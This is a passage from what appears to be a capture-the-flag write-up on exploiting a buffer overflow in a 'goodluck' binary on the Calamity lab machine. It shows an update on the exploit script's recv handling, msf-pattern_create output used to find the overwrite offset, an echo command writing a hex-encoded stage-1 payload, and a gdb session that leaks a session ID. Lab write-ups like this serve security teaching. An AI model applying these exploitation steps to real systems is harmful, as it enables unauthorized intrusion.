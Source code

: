     
    
    Filename:
    

**_Update 2 Jan 2022_** : Someone pointed out that the script above isn’t
working completely reliably, and it’s because of how I’m calling `recv`
instead of `recvuntil`. I’ve updated the script replacing
`print(goodluck.recv(4096).decode())` with `resp =
goodluck.recvuntil(b"Filename: ").decode()`. [This
video](https://www.youtube.com/watch?v=79mUGY3-dJQ) shows how I figured that
out:

#### Find Offset in debug

I left off at a file prompt, but this time I can give a file and it will read
100 bytes into a 64 byte buffer. I’m not just messing with EBX here, but I
should be able to overwrite the return address and get more control. First, I
need to find the offset to the overwrite.

I’ll use `msf-pattern_create` to create a pattern:

    
    
    root@kali# msf-pattern_create -l 120
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9
    

I need to run in `gdb` to get EIP when this crashes. I could run the exploit
locally, or just do a manual exploitation on Calamity. I opted for the latter.

I’ll write the stage 1 exploit to a file:

    
    
    xalvas@calamity:~$ echo -en "AAAAAAAA\xf8\x2f\x00\x80" > /tmp/0xdf
    

Now I’ll run `goodluck` in `gdb` up to the leak:

    
    
    xalvas@calamity:~$ gdb -q app/goodluck
    Reading symbols from app/goodluck...(no debugging symbols found)...done.
    gdb-peda$ r
    Starting program: /home/xalvas/app/goodluck 
    
    Filename:  /tmp/0xdf
    
    
            -----MENU-----
    1) leave message to admin
    2) print session ID
    3)login (admin only)
    4)change user
    5)exit
    
     action: 2
    
    debug info: 0x109616d
    
    